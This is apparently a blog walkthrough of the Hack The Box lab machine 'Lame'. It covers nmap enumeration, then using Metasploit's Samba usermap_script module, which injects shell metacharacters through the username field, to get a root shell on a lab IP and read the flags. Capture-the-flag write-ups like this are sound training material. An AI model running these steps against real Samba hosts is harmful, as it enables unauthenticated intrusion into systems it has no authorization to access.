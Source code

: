 ```yaml
---
title: Lame
date: 2020-05-02 11:29:00
description: HTB Walkthrough
featured_image: '/images/blog/lame/lame.jpg'
tags: ['Hack The Box']
---
```


Lame was the first box released in Hack The Box (HTB). It's a good box to start with for anyone new to penetration testing since it's a relatively easy and gets you familiar with using Metasploit.

## Hack The Box

* Operating System: Linux
* Difficulty: Easy

## Enumeration

As always, let's start with enumeration by using nmap. I like to use:

<img src="/images/blog/lame/ipaddress.jpg" alt="nmap scan">

	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.35
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
	No exact OS matches for host (test conditions non-ideal).
	Network Distance: 2 hops
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


Taking a look at the results, the most interesting ports are port 139 and 445 since they are SMB ports, and SMB is a common internet file system that is known to have vulnerabilities. We can also see that they are both currently running <i>Samba smbd 3.X - 4.X</i>, so we can take a look in Metasploit to see if we can find any exploits. 

To access Metasploit, we can enter in Terminal:

`msfconsole`

It takes a few minutes for Metasploit to open. Once it opens, we can search for an exploit that is related to Samba by using Metasploit's search feature:

`search samba`

From the search results, this one looks promising:

<img src="/images/blog/lame/exploit.jpg" alt="exploit">

And based on the description, it says:

<i>This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!</i>

So let's try using it!

## Exploitation

To use an exploit, we can type in Metasploit:

`use exploit/multi/samba/usermap_script`

<img src="/images/blog/lame/metasploit.jpg" alt="using metasploit">

Now we need to configure the exploit so we can use it to attack the machine.

* `options`: Gives us the visibility on what options we have to configure the exploit.
* `set rhosts 10.10.10.3`: This would be the victim's IP address.
* `show targets`: This is where we select the target's type (e.g. OS) that we're exploiting.
* `exploit`: Running the exploit.

That worked! We now have access to the machine.

We can type `shell` to see if we can gain shell access.

<img src="/images/blog/lame/shell.jpg" alt="obtaining a shell">

Once we have shell access, we can type in:

* `whoami`: Tells us the type of privileges that we have. It looks like we have root access--perfect.
* `pwd`: In other words, print working directory. We can see that we're in the /root folder.

Since we have root access, we can locate both the root.txt and user.txt file to win the game. Remember to `cat` the file once you find it so you can read the contents and enter the flag into HTB.

Congratulations! We now have root access to the box Lame.

## Conclusion

Leaving network ports open in general is a huge security risk, especially if there are no controls implemented to keep it secure. When it came to the HTB Lame, we found out that the SMB port was running a version of Samba that was vulnerable to an exploit that allowed us to gain system access. 